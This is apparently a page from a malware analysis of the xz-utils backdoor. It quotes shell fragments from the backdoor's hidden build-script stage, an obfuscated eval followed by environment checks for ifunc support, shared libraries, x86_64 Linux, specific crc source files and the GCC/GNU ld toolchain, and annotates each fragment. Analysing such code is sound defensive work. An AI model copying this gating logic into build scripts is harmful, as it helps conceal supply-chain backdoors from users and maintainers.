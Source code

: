 
```sh
    eval $zrKccj
    if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then
        exit 0
    fi
    if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then
        exit 0
    fi
```
- Check GNU indirect function support is enabled

```sh
    if test "x$enable_shared" != "xyes";then
        exit 0
    fi
```
- Check shared library support is enabled

```sh
    if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
        exit 0
    fi
```
- Check system is based on x86_64 Linux

```sh
    if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc64_fast.c > /dev/null 2>&1; then
        exit 0
    fi
    if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc32_fast.c > /dev/null 2>&1; then
        exit 0
    fi
    if ! grep -qs "$R" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
        exit 0
    fi
    if ! grep -qs "$x" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
        exit 0
    fi
```
- Check all crc ifunc codes
- [src/liblzma/check/crc64_fast.c](/Unknown/xz-utils_backdoor/script/crc64_fast.c)
- `src/liblzma/check/crc32_fast.c` is not used for exploit
- [src/liblzma/check/crc_x86_clmul.h](/Unknown/xz-utils_backdoor/script/crc_x86_clmul.h)

```sh
    if test "x$GCC" != 'xyes' > /dev/null 2>&1;then
        exit 0
    fi
    if test "x$CC" != 'xgcc' > /dev/null 2>&1;then
        exit 0
    fi
    LDv=$LD" -v"
    if ! $LDv 2>&1 | grep -qs 'GNU ld' > /dev/null 2>&1;then
        exit 0
    fi
```
- Check GCC and GNU ld is enabled

